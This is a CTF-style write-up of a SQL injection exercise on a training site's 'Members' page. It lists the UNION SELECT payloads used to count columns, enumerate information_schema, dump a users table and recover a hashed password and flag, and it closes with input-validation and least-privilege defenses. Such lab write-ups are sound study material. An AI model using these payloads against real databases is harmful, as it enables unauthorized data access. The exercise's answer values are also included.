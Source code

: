 # SQL Injection - Members

## What is it ?

Listed among the OWASP top 10 Web Application Security, an injection "occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization." (OWASP)

More precisely an SQL injection will trick an SQL interpreter.

## Some use cases

* accessing sensitive data and stealing / corrupting / deleting 
* injecting data
* taking host over
* denial of service

## Exploit on Darkly

### Context
On the `Members` part of the site we are asked to enter a member `ID`. The query outputs 3 fields:
	* the `ID` we made the query on
	* `First Name`
	* `Surname`

### Solution
As there is a potential SQL injection weakness, we do the following:

1. Trying to know how many columns there are in the original query (see below for the explanation about those commands): 
	* `1 UNION SELECT 1` outputs `The used SELECT statements have a different number of columns`
	* `1 UNION SELECT 1, 2` works fine so we guess there are two columns

2. Get the tables schema and names:
	* `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`

3. Get the tables columns:
	* `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`

4. Combining all the information we got from those queries, we discover that there is a `users` table with some potentially interesting columns:
	* `1 AND 1=2 UNION SELECT first_name, last_name FROM Member_Sql_Injection.users` outputs, for one of the users, `Flag` and `GetThe`
	* `1 AND 1=2 UNION SELECT countersign, commentaire FROM Member_Sql_Injection.users` outputs, for that same user, `5ff9d0165b4f92b14994e5c685cdce28` and `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

5. Following the instructions above:
	* we decrypt the hash on [dcode](https://www.dcode.fr/fonction-hash#f0), what outputs `FortyTwo`
	* on the same website, we hash (shasum 256) `fortytwo`, what outputs `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


### More details about the SQL commands

* `UNION` is a command that allows to concatenate the results of two different queries. The two queries must have the same number of columns
* `AND 1=2` is a condition that makes the first query always `false`: it won't output anything and we will gain readability

## Some ways to avoid it

* never trust the user inputs : validate / filter / sanitize the data sent to the site:
	* in our example, check that the user input is only an integer
	* for other queries (for example involving strings), escape all the special chars
	* set a whitelist of accepted characters
* in case the injection succeeds:
	* use control commands like `LIMIT` in SQL
	* use principle of least privilege